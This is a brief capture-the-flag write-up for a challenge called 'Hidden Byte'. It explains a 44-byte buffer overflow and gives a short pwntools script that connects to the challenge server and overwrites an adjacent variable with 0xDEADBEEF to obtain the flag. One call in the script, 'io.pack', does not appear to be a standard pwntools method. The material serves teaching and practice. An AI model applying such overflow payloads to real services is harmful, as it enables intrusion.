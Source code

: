 # Hidden Byte

This is a simple buffer overflow. The binary has a 44 character buffer, and the next variable needs to be overwritten with `0xDEADBEEF` to return the flag.

```py
from pwn import *

io = remote('chal.tuctf.com', 30012)

io.send(b'a'*44)
io.pack(0xDEADBEEF)

io.interactive()
```